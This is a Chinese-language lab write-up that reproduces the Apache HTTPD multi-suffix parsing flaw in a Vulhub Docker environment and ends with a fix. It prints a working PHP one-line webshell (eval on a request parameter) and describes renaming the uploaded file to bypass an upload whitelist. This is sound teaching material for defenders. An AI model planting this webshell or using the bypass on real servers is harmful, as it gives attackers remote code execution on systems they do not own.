









# Apache HTTPD 多后缀解析漏洞

### 1.1、漏洞描述

Apache HTTPD 支持一个文件拥有多个后缀，并为不同后缀执行不同的指令。比如，如下配置文件：

```php
AddType text/html .html
AddLanguage zh-CN .cn
```

其给`.html`后缀增加了media-type，值为`text/html`；给`.cn`后缀增加了语言，值为`zh-CN`。此时，如果用户请求文件`index.cn.html`，他将返回一个中文的`html`页面

> 常见的媒体格式类型解释：
>
> text/html： HTML格式
>
> text/plain：纯文本格式
>
> image/gif：gif图片格式
>
> application/pdf：pdf格式
>
> application/octet-stream：二进制流数据(常见的文件下载就是这种媒体格式)

以上就是Apache多后缀的特性。如果运维人员给`.php`后缀增加了处理器：

```php
AddHandler application/x-httpd-php .php
```






那么，在有多个后缀的情况下，只要一个文件含有`.php`后缀的文件即将被识别成PHP文件，没必要是最后一个后缀。

利用这个特性，将会造成一个可以绕过上传白名单的解析漏洞


### 1.2、漏洞复现

#### 1、基础环境

Path：Vulhub/httpd/apache_parsing_vulnerability

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip`即可看到




#### 2、漏洞验证

上传一句话木马，`bp`拦截数据包

```php
<?php
@eval($_REQUEST[6868]);
phpinfo();
?>
```



修改文件名，文件类型



访问 `/uploadfiles/1.php.png`文件



触发php探针

### 1.3、深度利用



#### GetShell





### 1.4、修复建议

将`AddHandler application/x-httpd-php.php`的配置文件删除